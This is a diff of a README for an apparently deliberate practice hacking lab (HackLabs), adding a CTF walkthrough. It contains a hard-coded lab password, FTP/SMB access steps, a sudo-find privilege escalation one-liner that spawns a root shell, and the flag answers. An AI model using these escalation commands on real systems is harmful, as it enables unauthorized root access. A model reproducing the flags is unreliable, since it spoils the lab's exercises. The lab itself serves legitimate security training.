

Before and after one commit to afsh4ck/HackLabs, a Markdown page: README.md, 2 parts joined by grey strips. GitHub-like rendering; folded sections open; blank space fills up the shorter version.

Commit message:
docs: add SSH privilege escalation section to README

````diff
--- a/README.md
+++ b/README.md
@@ -412,6 +412,7 @@ El lab de Bruteforce expone servicios reales con flags CTF. Encuéntralas tras a
 | **FTP** | `ftp admin@TARGET_IP` → `get ftp_flag.txt` | `HL{ftp_cr3d3nti4ls_r3us3d}` |
 | **SMB** | `smbclient //TARGET_IP/hacklabs -U admin` → `get flag.txt` | `HL{smb_sh4r3_3num3r4ti0n_succ3ss}` |
 | **SMB (admin_backup)** | `smbclient //TARGET_IP/admin_backup -U admin` → `get root.txt` | `HL{4dm1n_b4ckup_3xf1ltr4ti0n}` |
+| **SSH — root** | Escalada de privilegios desde cualquier usuario SSH | `HL{r00t_pr1v3sc_succ3ss}` |
 
 ### Acceso a los servicios tras bruteforce
 
@@ -438,0 +531,18 @@ cat /tmp/root.txt
+</details>
+
+<details>
+<summary><strong>dave — sudo find</strong></summary>
+
+```bash
+ssh dave@TARGET_IP   # password: P@ssw0rd
+
+# Verificar sudo
+sudo -l
+# → (ALL) NOPASSWD: /usr/bin/find
+
+# Escalar via GTFOBins
+sudo find . -exec /bin/bash \; -quit
+id    # uid=0(root)
+cat /root/root.txt
+```
+
````
Also changed, not shown: other parts of README.md (+94 -0 lines).
